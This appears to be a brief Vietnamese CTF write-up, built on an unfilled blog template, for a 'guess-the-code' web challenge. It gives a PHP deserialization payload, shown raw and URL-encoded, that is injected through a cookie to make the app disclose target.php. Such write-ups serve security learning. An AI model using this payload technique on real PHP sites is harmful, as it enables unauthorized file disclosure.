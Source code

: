 ```yaml
---
title: TITLE
date: 'XXXX-XX-XX'
draft: false
authors: ['AUTHOR']
tags: ['XXX', 'YYY']
summary: 'XXX'
canonical: ''
---
```


## TITLE

## Table of Contents

1. [Source](#Source)
2. [Solution](#Solution)

## Main Content
#### Detect: 

![image](https://github.com/user-attachments/assets/eda91334-0e6c-4ac4-8ee4-20430b109736)

Thường thì tostring dùng trong deser thì dữ liệu truyền đi cũng deser 

#### Search được: 
https://gitlab.sec.uni-passau.de/fklement/web-ctf/-/tree/master/random_web_challenges/guess-the-code

Vuln PHP Deser -> Inject trong cookie
Payload: 
```py
a:1:{i:0;O:3:"XYZ":1:{s:6:"source";s:10:"target.php";}}
````

```py
a%3A1%3A%7Bi%3A0%3BO%3A3%3A%22XYZ%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A10%3A%22target.php%22%3B%7D%7D
```

